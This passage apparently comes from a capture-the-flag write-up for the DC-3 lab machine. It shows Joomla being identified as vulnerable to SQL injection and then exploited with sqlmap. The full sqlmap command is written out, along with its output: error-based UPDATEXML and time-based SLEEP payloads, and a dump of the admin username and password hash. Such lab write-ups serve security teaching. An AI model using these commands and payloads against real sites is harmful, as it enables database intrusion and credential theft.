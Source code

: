 From the second Nmap output, we found the version of Joomla, and it's vulnerable to SQL injection. Let's search in searchsploit to see if there is any exploit available for this Joomla version.

![](/assets/images/dc-3/1.png)

Searchsploit also reveals that this Joomla version is vulnerable to SQL injection. Let's fire up SQLmap to automate the SQLi exploitation process.

```bash
sqlmap -u "http://10.10.10.6/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=update.xml"-p list[fullordering] -D joomladb -T '#__users' -C id,username,password --dump**

[*] starting @ 02:20:00 /2021-05-29/

[02:20:01] [INFO] resuming back-end DBMS 'mysql' 
[02:20:01] [INFO] testing connection to the target URL
[02:20:01] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=c58fg7qsgap...985gcqei64'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(5655,CONCAT(0x2e,0x7171716a71,(SELECT (ELT(5655=5655,1))),0x71627a7a71),1990))

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5736 FROM (SELECT(SLEEP(5)))epcn)
---
[02:20:03] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[02:20:03] [INFO] fetching entries of column(s) '`id`, `password`, username' for table '#__users' in database 'joomladb'
[02:20:03] [INFO] retrieved: '629'
[02:20:03] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
[02:20:03] [INFO] retrieved: 'admin'
Database: joomladb
Table: #__users
[1 entry]
+------+--------------------------------------------------------------+----------+
| id   | password                                                     | username |
+------+--------------------------------------------------------------+----------+
| 629  | **$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu** | admin    |
+------+--------------------------------------------------------------+----------+
```
